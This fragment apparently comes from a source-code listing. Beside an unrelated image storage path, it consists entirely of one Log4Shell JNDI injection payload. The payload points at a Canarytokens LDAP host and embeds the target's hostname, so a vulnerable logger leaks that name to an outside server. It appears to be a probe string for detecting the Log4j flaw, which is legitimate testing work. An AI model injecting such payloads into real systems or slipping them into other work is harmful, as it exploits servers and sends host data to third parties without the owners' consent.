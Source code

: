 # -jndi-ldap-x-hostName-.L4J.854iu1ae1btrvfgt998yzb2ou.canarytokens.com-a-
${jndi:ldap://x${hostName}.L4J.854iu1ae1btrvfgt998yzb2ou.canarytokens.com/a}
